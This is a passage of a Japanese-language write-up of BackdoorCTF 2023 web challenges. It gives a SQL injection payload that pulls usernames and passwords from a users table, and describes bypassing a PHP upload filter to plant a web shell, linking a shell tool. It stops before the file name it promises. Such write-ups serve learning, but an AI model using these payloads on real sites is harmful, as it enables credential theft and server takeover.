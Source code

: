 # BackdoorCTF 2023

BackdoorCTF 2023（<https://ctftime.org/event/2153>）に参加しました。  
土, 16 12月 2023, 12:00 UTC — 月, 18 12月 2023, 12:00 UTC

年末で忙しいため、簡易的なwriteupになります。  
難易度としてはそこまで難しくはなかったため、Webはもっと解けれたと思います。





- [Web](#web)
  - [too-many-admins](#too-many-admins)
  - [php_sucks](#php_sucks)
  - [Unintelligible-Chatbot](#unintelligible-chatbot)
  - [space-war](#space-war)
  - [armoured-notes](#armoured-notes)
- [Beginner](#beginner)
  - [mini_RSA](#mini_rsa)
  - [secret_of_j4ck4l](#secret_of_j4ck4l)
  - [Secret-of-Kurama](#secret-of-kurama)
- [Forensics](#forensics)
  - [Forenscript](#forenscript)



## Web

### too-many-admins

SQLインジェクションを実行すればフラグがもらえました。

```text
/?user=test' union select username, bio, password FROM users-- -
```

- Flag

```text
flag{1m40_php_15_84d_47_d1ff323n71471n9_7yp35}
```

### php_sucks

PHP+画像のWebShellアップロード問題でした。  
特徴としては、MIMEタイプのチェックが入るのですが、`$`が含まれているとそこで区切られる点です。

```php
<SNIP>
$allowedMimeTypes=['image/jpeg','image/jpg','image/png'];
$fileName=strtok($fileName,chr(7841151584512418084));
if(in_array($fileMimeType,$allowedMimeTypes)){
<SNIP>
```

ファイル名を以下のようにしたWebShellをアップロードすればよいです。
WebShellファイルとしては以下を利用しました。  
<https://github.com/jgor/php-jpeg-shell>
